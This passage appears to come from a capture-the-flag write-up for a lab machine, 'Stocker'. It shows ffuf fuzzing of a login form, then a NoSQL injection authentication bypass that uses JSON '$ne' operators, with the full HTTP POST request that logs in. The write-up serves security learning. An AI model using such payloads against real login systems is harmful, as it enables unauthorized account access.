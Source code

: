 I also tried fuzzing for bad characters but that didn't get any interesting results either:

`ffuf -request input.req -request-proto http -w /usr/share/seclists/Fuzzing/special-chars.txt -mc all`


As a result, I resorted to modifying the payload inside of the original request in burp.


Currently, the contents of the login credentials are stored as following:

```js
username=fakseUser&password=fakePass
```

If the website was using PHP, we could attempt a NoSQL injection by changing it to something like

```js
username[$ne]=fakeUser&password[$ne]=fakePass
````
Here, `$ne` represents the `not equal` operator. This is one of many operators we can use, which includes `$gt`, `$lt`, `$regex`...


However, since the websites are html and nodejs doesn't allow that kind of format, we want to change the payload to use a json format.

To do this, we change the `Content-Type` to `application/json`

We then can set the payload to the following:

```json
{"username":{"$ne":""}, "password":{"$ne":""}}
```

This looks for anything where the username is not empty and the password is not empty (ie. probably everything)

We can verify that the form is expecting json, because when we send the payload without the `password` variable, we get a `JSON.parse` error


However, sending the full payload logs us in:

```http
POST /login HTTP/1.1
Host: dev.stocker.htb
Content-Length: 46
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dev.stocker.htb
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dev.stocker.htb/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3ANPSKz6DZmI0iZkYyW8n3z23AesUGW8vq.mkv1OI9JhxqpWU2Jb%2BWjStPVjSnh3f%2FjInJ38dNsdNE
Connection: close

{"username":{"$ne":""}, "password":{"$ne":""}}
```
